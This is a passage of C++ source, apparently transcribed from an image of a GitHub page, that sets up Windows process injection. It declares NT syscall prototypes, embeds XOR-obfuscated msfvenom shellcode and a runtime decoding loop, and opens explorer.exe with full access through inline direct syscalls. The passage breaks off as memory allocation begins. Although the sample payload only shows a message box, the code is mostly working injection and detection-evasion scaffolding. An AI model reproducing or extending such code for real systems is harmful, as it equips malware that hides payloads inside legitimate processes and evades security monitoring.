 ```cpp
		PVOID ValuePtr;
	} u1;
	PSIZE_T ReturnLength;
} PS_ATTRIBUTE, * PPS_ATTRIBUTE;

typedef struct _PS_ATTRIBUTE_LIST
{
	SIZE_T       TotalLength;
	PS_ATTRIBUTE Attributes[1];
} PS_ATTRIBUTE_LIST, * PPS_ATTRIBUTE_LIST;

NTSTATUS NtOpenProcess(OUT PHANDLE ProcessHandle, IN ACCESS_MASK DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes, IN PCLIENT_ID ClientId OPTIONAL);

NTSTATUS NtAllocateVirtualMemory(IN HANDLE ProcessHandle, IN OUT PVOID* BaseAddress, IN ULONG ZeroBits, IN OUT PSIZE_T RegionSize, IN ULONG AllocationType, IN ULONG Protect);

NTSTATUS NtWriteVirtualMemory(IN HANDLE ProcessHandle, IN PVOID BaseAddress, IN PVOID Buffer, IN SIZE_T NumberOfBytesToWrite, OUT PSIZE_T NumberOfBytesWritten OPTIONAL);

NTSTATUS NtCreateThreadEx(OUT PHANDLE ThreadHandle, IN ACCESS_MASK DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN HANDLE ProcessHandle, IN PVOID StartRoutine, IN PVOID Argument OPTIONAL, IN ULONG CreateFlags, IN SIZE_T ZeroBits, IN SIZE_T StackSize, IN SIZE_T MaximumStackSize, IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);

NTSTATUS NtClose(IN HANDLE Handle);

int main(int argc, char* argv[])
{
	jm::init_syscalls_list();

	// PID of explorer.exe
	DWORD pid = 4396;

	// msfvenom --payload windows/x64/messagebox TEXT="Hello there." EXITFUNC=thread -f c
	unsigned char shellcode[] = "\x9c\x28\xe1\x84\x90\x9f\x9f\x9f\x88\xb0\x60\x60\x60\x21\x31\x21\x30\x32\x31\x36\x28\x51\xb2\x05\x28\xeb\x32\x00\x5e\x28\xeb\x32\x78\x5e\x28\xeb\x32\x40\x5e\x28\xeb\x12\x30\x5e\x28\x6f\xd7\x2a\x2a\x2d\x51\xa9\x28\x51\xa0\xcc\x5c\x01\x1c\x62\x4c\x40\x21\xa1\xa9\x6d\x21\x61\xa1\x82\x8d\x32\x21\x31\x5e\x28\xeb\x32\x40\x5e\xeb\x22\x5c\x28\x61\xb0\x5e\xeb\xe0\xe8\x60\x60\x60\x28\xe5\xa0\x14\x0f\x28\x61\xb0\x30\x5e\xeb\x28\x78\x5e\x24\xeb\x20\x40\x29\x61\xb0\x83\x3c\x28\x9f\xa9\x5e\x21\xeb\x54\xe8\x28\x61\xb6\x2d\x51\xa9\x28\x51\xa0\xcc\x21\xa1\xa9\x6d\x21\x61\xa1\x58\x80\x15\x91\x5e\x2c\x63\x2c\x44\x68\x25\x59\xb1\x15\xb6\x38\x5e\x24\xeb\x20\x44\x29\x61\xb0\x06\x5e\x21\xeb\x6c\x28\x5e\x24\xeb\x20\x7c\x29\x61\xb0\x5e\x21\xeb\x64\xe8\x28\x61\xb0\x21\x38\x21\x38\x3e\x39\x3a\x21\x38\x21\x39\x21\x3a\x28\xe3\x8c\x40\x21\x32\x9f\x80\x38\x21\x39\x3a\x5e\x28\xeb\x72\x89\x29\x9f\x9f\x9f\x3d\x29\xa7\xa1\x60\x60\x60\x60\x5e\x28\xed\xf5\x7a\x61\x60\x60\x5e\x2c\xed\xe5\x47\x61\x60\x60\x28\x51\xa9\x21\xda\x25\xe3\x36\x67\x9f\xb5\xdb\x80\x7d\x4a\x6a\x21\xda\xc6\xf5\xdd\xfd\x9f\xb5\x28\xe3\xa4\x48\x5c\x66\x1c\x6a\xe0\x9b\x80\x15\x65\xdb\x27\x73\x12\x0f\x0a\x60\x39\x21\xe9\xba\x9f\xb5\x28\x05\x0c\x0c\x0f\x40\x14\x08\x05\x12\x05\x4e\x60\x2d\x05\x13\x13\x01\x07\x05\x22\x0f\x18\x60";
	SIZE_T shellcodeSize = sizeof(shellcode);

	// XOR-decrypt the shellcode
	char key = '`';
	for (int i = 0; i < sizeof(shellcode) - 1; i++) {
		shellcode[i] = shellcode[i] ^ key;
	}

	HANDLE hProcess;
	OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes) };
	CLIENT_ID clientId = { (HANDLE)pid, NULL };
	INLINE_SYSCALL(NtOpenProcess)(&hProcess, PROCESS_ALL_ACCESS, &objectAttributes, &clientId);

	LPVOID baseAddress = NULL;
```